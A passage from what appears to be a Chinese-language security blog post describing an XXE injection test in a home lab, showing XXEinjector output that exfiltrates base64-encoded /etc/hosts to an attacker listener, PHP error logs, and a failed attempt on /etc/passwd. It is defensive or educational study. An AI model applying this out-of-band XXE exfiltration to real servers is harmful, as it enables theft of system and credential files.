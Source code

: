 成功获取到文件

```
Response with file/directory content received:
GET /?p=MTI3LjAuMC4xCWxvY2FsaG9zdAoxMjcuMC4xLjEJa2FsaQoKIyBUaGUgZm9sbG93aW5nIGxpbmVzIGFyZSBkZXNpcmFibGUgZm9yIElQdjYgY2FwYWJsZSBob3N0cwo6OjEgICAgIGxvY2FsaG9zdCBpcDYtbG9jYWxob3N0IGlwNi1sb29wYmFjawpmZjAyOjoxIGlwNi1hbGxub2RlcwpmZjAyOjoyIGlwNi1hbGxyb3V0ZXJzCg== HTTP/1.0

Enumeration unlocked.
Successfully logged file: /etc/hosts
```

```
XXEinjector git:(master) cat Logs/192.168.1.28/etc/hosts.log
127.0.0.1	localhost
127.0.1.1	kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```


在 kali 下拿 `/etc/passwd` 测试时，无法获取到，文件大小为 2.9K，base64后的长度为 `3924` 个字符

```
root@kali:/var/www/html# ls -lh /etc/passwd 
-rw-r--r-- 1 root root 2.9K Jan 20  2016 /etc/passwd
```

报错为：

```
root@kali:/var/www/html# tail -f /var/log/apache2/error.log  -n 0
[Wed Nov 16 04:45:23.548874 2016] [:error] [pid 1379] [client 192.168.1.17:57042] PHP Warning:  DOMDocument::loadXML(): Detected an entity reference loop in http://192.168.1.17:80/file.dtd, line: 2 in /var/www/html/xmlinject.php on line 5
[Wed Nov 16 04:45:23.549126 2016] [:error] [pid 1379] [client 192.168.1.17:57042] PHP Notice:  DOMDocument::loadXML(): PEReference: %int; not found in Entity, line: 1 in /var/www/html/xmlinject.php on line 5
[Wed Nov 16 04:45:23.549155 2016] [:error] [pid 1379] [client 192.168.1.17:57042] PHP Notice:  DOMDocument::loadXML(): PEReference: %trick; not found in Entity, line: 1 in /var/www/html/xmlinject.php on line 5
```

减少文件大小后，可以获取到，推测应该是 外部实体中的 URI 有长度限制导致无法获取到。

参考

exploitation-xml-external-entity-xxe-injection
Attacking XML with XML External Entity Injection (XXE)
XML实体攻击回顾
dtd_entities
php expect wrapper
b1ngz  b1ngz A Man who is finding the way home Tweet Share

Disqus seems to be taking longer than usual. Reload?

b1ngz © 2017 
Indigo theme by Kopplin